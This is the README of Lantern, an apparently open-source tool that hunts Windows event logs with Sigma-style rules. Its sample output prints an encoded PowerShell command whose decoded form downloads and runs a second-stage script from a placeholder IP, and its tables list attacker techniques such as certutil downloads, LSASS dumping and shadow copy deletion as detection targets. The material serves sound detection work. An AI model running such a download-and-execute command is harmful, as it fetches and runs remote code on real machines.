


# Lantern

[](https://github.com/FrueanA/lantern/actions/workflows/ci.yml)


**SIEM-less threat hunting for Windows event logs.** Lantern runs Sigma-style detection rules over exported Windows logs, correlates events across time, maps every finding to MITRE ATT&CK, and produces a self-contained HTML report an analyst can triage from.

It is built for the situations where you have logs but no SIEM: incident response on a handful of machines, a home lab, a CTF, or checking a detection idea before it goes to production.



## What it does

- **Reads the formats Windows tooling produces.** JSON Lines, JSON arrays, `evtx_dump` JSON, Windows event XML and raw `.evtx` files, all normalized to one field schema. A PowerShell exporter is included.
- **Detects with readable YAML rules.** Field modifiers (`contains`, `endswith`, `re`, `cidr`, `all`, numeric comparisons and more) and boolean conditions follow Sigma's syntax, so rules read like the Sigma rules analysts already know.
- **Catches behavior, not just single events.** `threshold` rules find password spraying and Kerberoasting bursts in sliding windows. `sequence` rules find ordered chains, like repeated failed logons followed by a success from the same source.
- **Treats detections as code.** Every match rule carries its own positive and negative test events. CI runs them, the unit tests, a full attack scenario and a benign baseline that must produce zero findings.
- **Helps with triage.** Findings show the evidence events, ATT&CK techniques and tactics, known false positives and, for encoded PowerShell, the decoded command.

## Quick start

```bash
git clone https://github.com/FrueanA/lantern.git
cd lantern
pip install .

lantern hunt samples/attack_scenario.jsonl --html report.html
```

Open `report.html` in a browser. No server or internet connection is needed.

```text
Lantern 0.1.0: 1553 events from 1 input, 2026-03-13 20:00:40 to 2026-03-14 10:03:35 UTC, 6 hosts, 16 rules
19 findings on 4 hosts between 02:10 and 09:14 UTC (5 critical, 12 high, 2 medium).

2026-03-14 02:10:04  CRITICAL  LNT-004  Successful logon after repeated failures           WS-FIN-07
                     32 failed logons, then 1 successful logon in 10m 49s for IpAddress=203.0.113.45
2026-03-14 02:10:04  HIGH      LNT-002  Password spraying from a single source             WS-FIN-07
                     14 distinct TargetUserName values in 10m 32s from IpAddress=203.0.113.45
2026-03-14 02:10:22  MEDIUM    LNT-003  Repeated failed logons for one account             WS-FIN-07
                     19 matching events in 10m 15s from IpAddress=203.0.113.45, TargetUserName=j.alvarez
2026-03-14 02:20:54  HIGH      LNT-015  RDP logon from a public IP address                 WS-FIN-07
                     TargetUserName=j.alvarez, IpAddress=203.0.113.45, WorkstationName=DESKTOP-R4F9TQ1
2026-03-14 02:26:11  HIGH      LNT-005  PowerShell started with an encoded command         WS-FIN-07
                     User=CORP\j.alvarez, ParentImage=C:\Windows\explorer.exe, CommandLine=powershell.exe -nop -w hidden -enc SQBFAFgA...
                     Decoded PowerShell: IEX (New-Object Net.WebClient).DownloadString('http://198.51.100.23/stage2.ps1')
...
```

A pre-generated report is in [`docs/example-hunt-report.html`](docs/example-hunt-report.html) (download it and open it locally), with the matching JSON in [`docs/example-findings.json`](docs/example-findings.json).

## The sample scenario

`samples/attack_scenario.jsonl` is a synthetic overnight dataset for a small company network: a domain controller, a file server and four workstations, with ordinary user and system activity plus internet scanning against an exposed RDP port. Two intrusions are mixed in:

| Time (UTC) | Host | Activity | Detected by |
|---|---|---|---|
| 02:10 | WS-FIN-07 | Password spraying, then guessing one account over exposed RDP | LNT-002, LNT-003 |
| 02:20 | WS-FIN-07 | Successful RDP logon from the attacker's public IP | LNT-004, LNT-015 |
| 02:26 | WS-FIN-07 | Encoded PowerShell downloads a second stage and a binary | LNT-005, LNT-006 |
| 02:29 | WS-FIN-07 | The dropped binary opens LSASS memory | LNT-007 |
| 02:33 | WS-FIN-07 | Backdoor local admin, service and scheduled task | LNT-012, LNT-010, LNT-008, LNT-009 |
| 02:41 | DC01 | Kerberoasting: RC4 tickets for 7 service accounts | LNT-011 |
| 02:58 | FS01 | Shadow copies and backup catalog deleted | LNT-014 |
| 03:04 | WS-FIN-07 | Security log cleared | LNT-001 |
| 09:14 | WS-HR-03 | Macro spreadsheet starts cmd.exe, certutil downloads a payload | LNT-013, LNT-016 |

`samples/benign_baseline.jsonl` has the same network and users with no attacker activity, including deliberate near-misses: mistyped passwords, Defender reading LSASS, a legitimate service install, Microsoft and backup scheduled tasks, a non-privileged group change and a legacy app that requests RC4 tickets for one service. All 16 rules stay silent on it, and the tests check that across several random seeds.

Every event is fabricated, and the attacker addresses come from documentation-only ranges (RFC 5737). Regenerate the files with `lantern sample` and `lantern sample --benign -o samples/benign_baseline.jsonl`.

## Detections

| ID | Severity | Type | Detects | ATT&CK |
|---|---|---|---|---|
| LNT-001 | high | match | Security or other event log cleared | T1070.001 |
| LNT-002 | high | threshold | Password spraying: one source, 8+ accounts in 10 min | T1110.003 |
| LNT-003 | medium | threshold | 15+ failed logons for one account from one source in 10 min | T1110.001 |
| LNT-004 | critical | sequence | 5+ failed logons then a success from the same source within 30 min | T1110, T1078 |
| LNT-005 | high | match | PowerShell with `-EncodedCommand` (payload decoded in the report) | T1059.001, T1027 |
| LNT-006 | high | match | Script blocks that download and run code, decode base64 or tamper with AMSI | T1059.001, T1105 |
| LNT-007 | critical | match | LSASS opened with memory-read rights by an untrusted process | T1003.001 |
| LNT-008 | high | match | Service installed from a user-writable path or wrapping a shell | T1543.003 |
| LNT-009 | high | match | Scheduled task that runs a script host or user-writable binary | T1053.005 |
| LNT-010 | high | match | Member added to Administrators, Domain Admins and similar groups | T1098 |
| LNT-011 | high | threshold | Kerberoasting: RC4 service tickets for 5+ services from one client | T1558.003 |
| LNT-012 | medium | match | Local user account created | T1136.001 |
| LNT-013 | high | match | Office application starting a shell, script host or LOLBin | T1566.001, T1204.002 |
| LNT-014 | critical | match | Shadow copy, backup catalog or recovery deletion (ransomware precursor) | T1490 |
| LNT-015 | high | match | RDP logon from a public IP address | T1133, T1021.001 |
| LNT-016 | high | match | certutil used to download a file | T1105 |

Run `lantern rules` to list them and `lantern rules --test` to run their embedded tests.

## How it works



| Module | Responsibility |
|---|---|
| `lantern/events.py` | Readers for each format and normalization into flat events with UTC timestamps |
| `lantern/conditions.py` | Recursive-descent parser that compiles conditions into short-circuiting closures |
| `lantern/rules.py` | Rule schema, validation, field modifiers and embedded rule tests |
| `lantern/engine.py` | Match, threshold and sequence evaluation, plus PowerShell decoding |
| `lantern/report.py` | Terminal, JSON and HTML output |
| `lantern/attack.py` | Offline ATT&CK technique and tactic reference |
| `lantern/sample.py` | Deterministic generator for the sample datasets |

Design notes:

- **Rules fail loudly.** A condition that names a selection that does not exist, an unknown modifier or a bad window is a load error, not a rule that silently never fires.
- **Filters resist masquerading.** Trusted tools are filtered by full install path, so `C:\Users\Public\MsMpEng.exe` is not mistaken for Defender. LNT-007 includes a test for exactly that.
- **Stateful rules stay readable.** One long attack burst becomes one finding with all of its evidence, not dozens of alerts.
- **Only one dependency.** PyYAML is required. `python-evtx` is optional and only used for raw `.evtx` files.

## Hunting your own logs

Only collect and analyze logs from systems you own or are authorized to investigate. Exported logs contain usernames, hostnames and command lines, so handle them as sensitive data and do not commit them.

**Export on Windows** from an elevated PowerShell prompt (the Security log needs admin rights):

```powershell
.\scripts\Export-Events.ps1 -Hours 24 -OutFile events.jsonl
lantern hunt events.jsonl --html report.html
```

**Or read `.evtx` files directly** (for example, copies collected during an investigation):

```bash
pip install ".[evtx]"
lantern hunt collected-logs/ --html report.html
```

Many rules depend on logging that Windows does not turn on by default:

| Rules | Requires |
|---|---|
| LNT-005, LNT-013, LNT-014, LNT-016 | Process creation auditing with command lines (4688), or Sysmon event 1 |
| LNT-006 | PowerShell script block logging (4104) |
| LNT-007 | Sysmon event 10 with LSASS in the ProcessAccess configuration |
| LNT-009 | Audit Other Object Access Events (4698) |
| LNT-011 | Audit Kerberos Service Ticket Operations on domain controllers (4769) |

## Command reference

```text
lantern hunt PATH... [--rules PATH] [--min-severity LEVEL] [--html FILE] [--json FILE]
                     [--fail-on LEVEL] [--quiet] [--no-color]
lantern rules [--rules PATH] [--test]
lantern sample [-o FILE] [--seed N] [--benign]
```

`--fail-on high` exits with code 3 when any finding is high or critical, which lets Lantern act as a gate in scripts and CI jobs.

## Writing rules

```yaml
id: LNT-012
title: Local user account created
severity: medium
attack: [T1136.001]
detection:
  account_created:
    EventID: 4720
    Channel: Security
  condition: account_created
fields: [TargetUserName, SubjectUserName]
tests:
  match:
    - {EventID: 4720, Channel: Security, TargetUserName: support_adm}
  nomatch:
    - {EventID: 4722, Channel: Security, TargetUserName: support_adm}
```

The full format, including threshold and sequence rules, is in [docs/writing-rules.md](docs/writing-rules.md).

## Testing

```bash
python -m unittest discover -s tests -t . -v
lantern rules --test
```

The suite covers the condition parser, every field modifier, all input formats and timestamp styles, threshold and sequence edge cases (windows, grouping, reuse of events), the full attack scenario, a zero-false-positive check on the benign baseline across several seeds, report rendering and the CLI. GitHub Actions runs it on Python 3.10 through 3.13 and uploads the sample hunt report as a build artifact.

## Limitations

- Lantern is an offline hunting tool, not a real-time monitor. It loads all events into memory, which is fine for hundreds of thousands of events but not for a whole enterprise's logs.
- The rule format is Sigma-inspired, not a full Sigma implementation. It does not read Sigma rule files directly, and field names follow Windows rather than Sigma's taxonomy.
- Detection thresholds are tuned for the sample network. Tune counts, windows and filters to your environment before trusting them.

## Roadmap

- Convert Sigma rules into Lantern rules
- More Sysmon detections (network connections, registry run keys, DLL side-loading)
- Group related findings into incidents by host, user and time
- Timeline export for Timesketch

## License

MIT. See [LICENSE](LICENSE).
